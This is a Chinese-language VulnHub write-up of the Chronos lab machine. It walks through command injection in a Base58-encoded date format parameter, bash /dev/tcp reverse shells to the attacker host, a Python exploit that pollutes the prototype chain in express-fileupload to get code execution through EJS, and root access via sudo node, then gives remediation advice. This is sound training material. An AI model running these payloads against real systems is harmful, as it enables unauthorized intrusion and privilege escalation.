

## 靶机概况

- **靶机名称**：Chronos
- **靶机地址**：https://www.vulnhub.com/entry/chronos-1,735/
- **难度等级**：中等
- **核心技术栈**：Node.js Express、EJS 模板引擎、express-fileupload、Apache httpd
- **攻击链路**：Web 枚举 → JS 反混淆 → Base58 解码 → 日期格式命令注入 → 反弹 Shell → Express-fileupload 原型链污染 → EJS RCE 横向提权 → sudo node 提权至 Root

## 信息收集与端口枚举

### 主机发现与端口扫描

```bash
# 二层网络探测确定目标 IP
# Nmap 全端口服务版本探测
nmap -sV -p- 192.168.56.101
```

**开放端口与服务识别结果**：

| 端口 | 服务 | 版本信息 |
|------|------|----------|
| 22/tcp | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80/tcp | http | Apache httpd 2.4.29 (Ubuntu) |
| 8000/tcp | http | Node.js Express framework |

> 同时存在 Apache (80) 与 Node.js Express (8000) 两个 Web 服务，需分别枚举。

## Web 枚举与 JavaScript 反混淆分析

### 端口 Apache 站点

访问 `http://192.168.56.101` 页面内容较少，查看源码发现一段高度混淆的 JavaScript 代码：

```javascript
var _0x5bdf=['150447srWefj','70lwLrol','1658165LmcNig','open','1260881JUqdKM','10737CrnEEe','2SjTdWC','readyState','responseText','1278676qXleJg','797116soVTES','onreadystatechange','http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL','User-Agent','status','1DYOODT','400909Mbbcfr','Chronos','2QRBPWS','getElementById','innerHTML','date'];
// ... 大量十六进制索引运算与字符串数组映射混淆 ...
function loadDoc(){ ... }
```

**关键信息提取**：
- 代码中硬编码域名 `chronos.local:8000`，暗示需配置 hosts 解析
- 请求路径 `/date?format=` 后跟一长串疑似编码字符串：`4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`

### 配置本地 hosts 解析

```bash
echo "192.168.56.101 chronos.local" >> /etc/hosts
```

刷新页面后，页面动态加载并显示当前日期时间，确认 JS 逻辑为：向 `chronos.local:8000/date` 发起 AJAX 请求，将返回内容填入 DOM。

### 端口 Node.js Express 站点

直接访问 `http://192.168.56.101:8000` 返回相似的混淆 JS 与页面结构。抓包分析 `/date?format=...` 请求，发现 `format` 参数值即为上述长字符串。

## Base58 解码与命令注入漏洞挖掘

### 编码识别与解码

对 `format` 参数值 `4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL` 进行编码识别，**确认为 Base58 编码**。

解码后得到：

```
Today is %A, %B %d, %Y %H:%M:%S.
```

这是标准的 `strftime` 日期格式字符串，提示后端可能直接将用户输入拼接进 `date` 命令或类似格式化函数。

### 命令注入验证

尝试注入 Shell 命令分隔符 `&&` 与任意命令：

```
# 将 format 参数替换为 Base58 编码后的 "&& ls"
# 编码工具：https://www.base58encode.org/ 或 Python base58 库
```

**Payload 构造**：

```python
import base58
payload = "&& ls"
encoded = base58.b58encode(payload.encode()).decode()
# 得到: 5Jdixo4
```

发送请求 `GET /date?format=5Jdixo4`，响应中出现目录列表，**确认存在命令注入**。

### 反弹 Shell 利用

目标环境 `nc` 无 `-e` 参数，采用管道串联方式：

```bash
# 攻击机监听
nc -lvnp 4444

# 靶机执行 (Base58 编码后填入 format)
bash -c "bash -i >& /dev/tcp/192.168.56.102/4444 0>&1"
```

成功获取 `www-data` 权限 Shell。

## 后渗透枚举与横向提权 (Express-fileupload 原型链污染)

### 关键文件发现

在 `/opt/chronos-v2/` 目录下发现 `server.js`：

```javascript
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')
const app = express();

app.use(fileupload({ parseNested: true }));  // 关键配置
app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => { res.render('index') });

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => { console.log('Server listening on ' + addr + ' port ' + port); });
```

**关键点**：
- 监听 `127.0.0.1:8080` (仅本地回环)
- 使用 `express-fileupload` 且启用 `parseNested: true`
- 模板引擎为 **EJS**
- 该服务疑似以更高权限用户运行 (后续验证为 `chronos` 用户)

### 漏洞原理：express-fileupload 原型链污染 → EJS RCE

`express-fileupload` 在 `parseNested: true` 时会递归解析嵌套对象，攻击者可通过文件上传字段名污染 `Object.prototype`，进而控制 EJS 渲染选项 `outputFunctionName` 实现代码执行。

**参考资料**：
- [[vulnhub-hard-socnet2-writeup]] 中亦涉及类似原型链污染利用链
- 利用项目：https://github.com/boiledsteak/EJS-Exploit
- 原理分析：https://blog.p6.is/Real-World-JS-1/

### 利用脚本编写与执行

在靶机 `/tmp` 目录创建 `exploit.py`：

```python
import requests

# 目标内网服务
base = 'http://127.0.0.1:8080'
cmd = 'bash -c "bash -i >& /dev/tcp/192.168.56.102/8888 0>&1"'

# 步骤 1: 污染原型链，植入恶意 outputFunctionName
pollute_payload = f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x"
files = {
    '__proto__.outputFunctionName': (None, pollute_payload)
}
requests.post(base, files=files)

# 步骤 2: 触发 EJS 渲染，执行命令
requests.get(base)
```

攻击机开启监听 `nc -lvnp 8888`，靶机执行 `python3 exploit.py`，成功反弹 `chronos` 用户 Shell。

**读取 user flag**：

```bash
cat /home/chronos/user.txt
```

## 权限维持与 Root 提权 (sudo node)

### sudo 权限枚举

```bash
sudo -l
```

输出显示 `chronos` 用户可免密以 root 身份运行 `node` 与 `npm`：

```
User chronos may run the following commands on chronos:
    (root) NOPASSWD: /usr/bin/node
    (root) NOPASSWD: /usr/bin/npm
```

### Node.js 直接生成 Root Shell

利用 Node.js `child_process.spawn` 启动交互式 Bash：

```bash
sudo node -e 'require("child_process").spawn("/bin/bash", {stdio: [0,1,2]})'
```

即刻获得 Root 权限 Shell，**读取 root flag**：

```bash
cat /root/root.txt
```

## 攻击链总结图谱



## 关键技术点速查表

| 技术点 | 关键细节 | 利用条件 |
|--------|----------|----------|
| **JS 混淆** | 十六进制索引映射字符串数组，自解密 IIFE | 静态分析 / 控制台执行 `_0x432d` 恢复明文 |
| **Base58** | 非标准 Base64，常用于比特币地址、IPFS CID | 在线解码器 / Python `base58` 库 |
| **strftime 注入** | 后端直接拼接用户输入到 `date +'FORMAT'` | 无过滤、无引号闭合需求 |
| **express-fileupload parseNested** | 递归解析 `req.files` 键名，污染 `Object.prototype` | `parseNested: true` 且可控文件字段名 |
| **EJS outputFunctionName** | 模板编译产物中作为函数名直接拼入 JS 代码 | 能控制 `options.outputFunctionName` |
| **sudo node** | `child_process.spawn` 继承 stdio 0/1/2 即交互式 Shell | sudoers 允许 `NOPASSWD: /usr/bin/node` |

## 相关靶机交叉引用

- [[vulnhub-platform-resource-index]] — VulnHub 平台资源总览与 750+ 镜像合集
- [[vulnhub-doubletrouble-writeup]] — Shellshock + Dirty COW 经典组合拳
- [[vulnhub-hard-socnet2-writeup]] — 文件上传、SQLi、XML-RPC、内核提权、二进制溢出全链路
- [[vulnhub-pwned-writeup]] — Web 枚举 → FTP 凭证复用 → SSH 密钥 → sudo/Docker 提权
- [[vulnhub-sar-writeup]] — sar2HTML RCE + 计划任务/CVE-2021-3493 双提权路径
- [[vulnhub-infosecprep-oscp-writeup]] — WordPress 目录遍历 → Base64 SSH 私钥 → SUID bash 提权
- [[vulnhub-bbs-cute-102-writeup]] — CuteNews RCE + GIF89a 绕过上传 + 提权
- [[0w1club-training-shellshock-cgi-exploitation]] — 同社团归档的 Shellshock 系统性教学与 DOUBLETROUBLE 实战
- [[peda-buffer-overflow-analysis-guide]] — PEDA 调试 Linux 溢出，含 VulnHub hard-socnet2 实战案例

## 防御与修复建议

1. **输入验证与编码**：日期格式化参数应使用白名单校验，禁止直接拼接进 Shell 命令。
2. **依赖升级**：`express-fileupload` 升级至 ≥1.3.1（已修复 `parseNested` 原型链污染），或显式设置 `parseNested: false`。
3. **模板引擎沙箱**：EJS 生产环境建议启用 `async` 模式并限制 `outputFunctionName` 等危险选项；考虑改用带沙箱的模板引擎 (如 Nunjucks `autoescape`)。
4. **最小权限原则**：Node.js 服务以非特权用户运行，禁用 `sudo node` 等高危配置；如需绑定低端口，使用 `authbind` 或 `setcap 'cap_net_bind_service=+ep' /usr/bin/node`。
5. **网络分段**：内网管理端口 (8080) 仅监听 `127.0.0.1`，避免直接暴露；配合 `iptables`/`ufw` 限制源 IP。

## 学习资源延伸

- **原型链污染原理**："Prototype Pollution in Node.js" — BlackHat 2018 / Olivier Arteau
- **EJS RCE 利用链**："Real World JS Prototype Pollution" — p6.is 博客系列
- **Base58 算法规范**：Bitcoin Developer Reference — Base58Check Encoding
- **OSCP 备考靶机推荐**：[[vulnhub-platform-resource-index]] 中标注的「OSCP-like」标签机器

---

> **注**：本页面基于 0w1Club 微信公众号归档文章《VulnHub靶机 | Chronos》整理，原作者 **牧童**，首发于 2023 年。页面结构化重组旨在构建可检索、可复用的渗透测试知识库节点，所有技术细节均忠实还原原文实战流程。

## 来源

- [0x00实验室-202108-202304_029](../sources/0x00实验室-202108-202304_029.md)
